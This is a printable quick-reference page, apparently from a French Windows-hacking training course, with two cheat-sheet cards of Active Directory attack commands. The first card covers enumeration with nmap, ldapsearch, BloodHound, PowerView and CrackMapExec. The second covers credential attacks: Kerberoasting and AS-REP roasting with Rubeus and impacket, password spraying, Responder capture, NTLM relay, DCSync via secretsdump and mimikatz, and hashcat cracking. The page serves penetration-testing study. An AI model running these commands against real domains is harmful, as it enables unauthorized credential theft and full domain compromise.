

repository: VBlackJack/ShellBook · page: formations/windows-hacking-mastery/quick-reference/index.html · generator: mkdocs

---
tags:
  - formation
  - security
  - cheatsheet
  - quick-reference
  - exam
---

# Quick Reference Cards

Fiches condensées pour utilisation rapide en exam ou sur le terrain. Imprimables en format A4.

**Durée estimée :** 15 minutes

---

## Card 1: Enumeration AD

```
┌─────────────────────────────────────────────────────────────────┐
│                    AD ENUMERATION QUICK REF                      │
├─────────────────────────────────────────────────────────────────┤
│ ANONYMOUS                                                        │
│ ─────────────────────────────────────────────────────────────── │
│ nmap -p 389,636,3268 -sV <DC>                                   │
│ ldapsearch -x -H ldap://<DC> -s base namingcontexts             │
│ rpcclient -U "" -N <DC>                                         │
│ enum4linux -a <DC>                                              │
│                                                                  │
│ AUTHENTICATED                                                    │
│ ─────────────────────────────────────────────────────────────── │
│ # BloodHound                                                     │
│ bloodhound-python -u user -p pass -d domain -c All -ns <DC>     │
│                                                                  │
│ # PowerView                                                      │
│ Get-DomainUser -SPN                    # Kerberoastable         │
│ Get-DomainUser -PreauthNotRequired     # AS-REP Roastable       │
│ Get-DomainComputer -Unconstrained      # Unconstrained Deleg    │
│ Find-InterestingDomainAcl              # Weak ACLs              │
│ Get-DomainGPO | Get-ObjectAcl          # GPO permissions        │
│                                                                  │
│ # CrackMapExec                                                   │
│ cme smb <DC> -u user -p pass --users                            │
│ cme smb <DC> -u user -p pass --shares                           │
│ cme smb <DC> -u user -p pass -M spider_plus                     │
│                                                                  │
│ BLOODHOUND QUERIES                                               │
│ ─────────────────────────────────────────────────────────────── │
│ MATCH (n:User {hasspn:true}) RETURN n          # Kerberoastable │
│ MATCH (n:User {dontreqpreauth:true}) RETURN n  # AS-REP         │
│ MATCH p=shortestPath((a)-[*1..]->(b:Group {name:"DOMAIN ADMINS@│
│   DOMAIN.LOCAL"})) RETURN p                                      │
└─────────────────────────────────────────────────────────────────┘
```

---

## Card 2: Credential Attacks

```
┌─────────────────────────────────────────────────────────────────┐
│                   CREDENTIAL ATTACKS QUICK REF                   │
├─────────────────────────────────────────────────────────────────┤
│ KERBEROASTING                                                    │
│ ─────────────────────────────────────────────────────────────── │
│ impacket-GetUserSPNs -request -dc-ip <DC> domain/user:pass      │
│ Rubeus.exe kerberoast /nowrap                                   │
│ hashcat -m 13100 hashes.txt wordlist.txt                        │
│                                                                  │
│ AS-REP ROASTING                                                  │
│ ─────────────────────────────────────────────────────────────── │
│ impacket-GetNPUsers -dc-ip <DC> domain/ -usersfile users.txt    │
│ Rubeus.exe asreproast /nowrap                                   │
│ hashcat -m 18200 hashes.txt wordlist.txt                        │
│                                                                  │
│ PASSWORD SPRAYING                                                │
│ ─────────────────────────────────────────────────────────────── │
│ cme smb <DC> -u users.txt -p 'Password123' --continue-on-success│
│ kerbrute passwordspray -d domain users.txt 'Password123'        │
│                                                                  │
│ RESPONDER                                                        │
│ ─────────────────────────────────────────────────────────────── │
│ responder -I eth0 -dwv                                          │
│ hashcat -m 5600 hashes.txt wordlist.txt     # NTLMv2            │
│                                                                  │
│ NTLM RELAY                                                       │
│ ─────────────────────────────────────────────────────────────── │
│ impacket-ntlmrelayx -tf targets.txt -smb2support                │
│ impacket-ntlmrelayx -t ldap://<DC> --escalate-user user         │
│                                                                  │
│ DCSYNC                                                           │
│ ─────────────────────────────────────────────────────────────── │
│ impacket-secretsdump domain/admin:pass@<DC>                     │
│ mimikatz# lsadump::dcsync /domain:domain /user:krbtgt           │
└─────────────────────────────────────────────────────────────────┘
```

---
